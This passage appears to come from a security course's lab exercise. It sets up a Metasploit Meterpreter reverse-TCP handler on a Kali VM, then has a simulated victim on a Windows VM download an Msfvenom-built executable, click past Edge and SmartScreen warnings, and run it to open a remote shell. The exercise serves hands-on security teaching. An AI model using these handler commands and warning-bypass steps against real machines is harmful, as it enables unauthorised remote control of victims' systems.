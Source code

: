 > set LPORT 9001
> ```
> Set the payload of the handler to the Windows x64 staged Meterpreter TCP setting we used when generating the EXE using Msfvenom.  
> ```
> set payload windows/x64/meterpreter/reverse_tcp
> ```
> Double check the settings and confirm that the payload, LHOST, and LPORT are correct.
> ```
> options
> ```
> Start the listener. This will create a service waiting for a connection from the Meterpreter payload generated using Msfvenom.
> ```
> run
> ```
> #### Step 5 - Trigger the Attack
> The Kali VM has a Meterpreter listener on port 9001 and a webserver running on port 80. Return to the Windows VM and open a web browser. We will simulate a victim user downloading and running a malicious file from the internet. Navigate to the Kali VM's IP address and observe a listing of folders and files.
> 
> Find the "`runme.exe`" file in the directory listing for the Kali VM and press it to download. Edge will likely stop the download since it is an executable. Click on the popup message and select Keep from the options menu. Next, SmartScreen will complain that the file is not verified - select Show more and choose "Keep anyway". Finally, the executable downloads!
> 
> Open the Downloads folder and double-click the "`runme.exe`" file to launch it. SmartScreen blocks the file from running because it has the "mark of the web" value set. Select "More info" and then "Run anyway". Observe that after a few seconds the Windows VM behaves normally while the reverse shell runs in the background.
> #### 6 - Profit!
> Now that the "`runme.exe`" ran on the Windows VM, return to the Kali VM's terminal that has the Metasploit handler/listener running. Observe that a stage was sent to the victim and a Meterpreter session was opened!
> 
> The Meterpreter shell acts like a wrapper to the Windows command line. The Meterpreter shell has many features such as download/upload, screen/keyboard recording, and much more. Type the help command to list all available features.
> ```
> help
> ```
> Explore the victim's system information using the built-in tool `sysinfo`. Observe that the Windows system information is returned.
> ```
> sysinfo
> ```
> >[!warning] Warning - Session Death
> >If your session dies, rerun the handler and re-execute the runme.exe on the victim to reestablish a connection. 
>
> Using the help menu, identify a command that looks interesting and run it. Describe the command and if you were successful running it.


[^1]: Missouri gov. calls journalist who found security flaw a “hacker,” threatens to sue - Ars Technica; Oct 14th, 2021; https://arstechnica.com/tech-policy/2021/10/missouri-gov-calls-journalist-who-found-security-flaw-a-hacker-threatens-to-sue/